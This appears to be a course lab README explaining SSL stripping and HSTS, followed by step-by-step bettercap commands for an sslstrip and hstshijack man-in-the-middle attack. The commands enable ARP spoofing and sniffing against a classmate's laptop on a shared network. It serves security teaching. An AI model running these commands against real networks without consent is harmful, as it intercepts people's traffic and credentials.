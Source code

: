 # SSLSTRIP + HSTSHIJACK

**SSL Stripping** or an **SSL Downgrade Attack** is an attack used to circumvent the security enforced by SSL certificates on HTTPS-enabled websites. In other words, SSL stripping is a technique that downgrades your connection from secure HTTPS to insecure HTTP and exposes you to eavesdropping and data manipulation.

**HTTP Strict Transport Security (HSTS)** is a policy mechanism that helps to protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should automatically interact with it using only HTTPS connections, which provide Transport Layer Security (TLS/SSL), unlike the insecure HTTP used alone.

The HSTS Policy is communicated by the server to the user agent via an HTTP response header field named **Strict-Transport-Security**. HSTS Policy specifies a period of time during which the user agent should only access the server in a secure fashion. Websites using HSTS often do not accept clear text HTTP, either by rejecting connections over HTTP or systematically redirecting users to HTTPS (though this is not required by the specification). The consequence of this is that a user-agent not capable of doing TLS will not be able to connect to the site.

## SSLSTRIP + HSTSHIJACK with BETTERCAP 
### **Goal**
In this session, our goal is to clone start an **sslstrip** attack against a victim also using the **hstshijack** module in order to avoid website **hsts** protection policy.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Login as root and install **bettercap**

        sudo su
        apt install bettercap

 2. Check your `iface` name

        iw dev

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/1.%20iw%20dev.png?raw=true)

 3. Run **bettercap** over your **iface**

        bettercap -iface wlp59s0
 4. Update **bettercap** mudules **(caplets)**
        
        caplets.update
        caplets.show

 5. Check if **hstshijack/hstshijack** is installed

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/2.%20caplets.png?raw=true)

 6. Run **help** and check enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/3.%20modules%20enabled.png?raw=true)


 7. Set the **sslstrip** to **true** and enable **hstshijack** module:
       
        set http.proxy.sslstrip true
        hstshijack/hstshijack

 8. Check (again) enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/4.%20modules%20enabled.png?raw=true)

 9. Finally, enable **net.probe**, **net.sniff** and **arp.spoof** modules (respect this order!)

        net.probe on
        net.sniff on
        arp.spoof on

 10. Check (again and again) enabled modules

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/5.%20modules%20enabled.png?raw=true)

 11. On the **Victim** side try to navigate and https website
 
 12. Sniff the traffic

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/6.%20sniffing.png?raw=true)

 13. Stop **bettercap**

         quit

**Attention:** modern browser are able to prevent this kind of attack. If you are not to fully replicate the attack on your personal laptop, don't worry, try on the GNS3 laboratory (or study more in order to made it compatible also with modern technologies)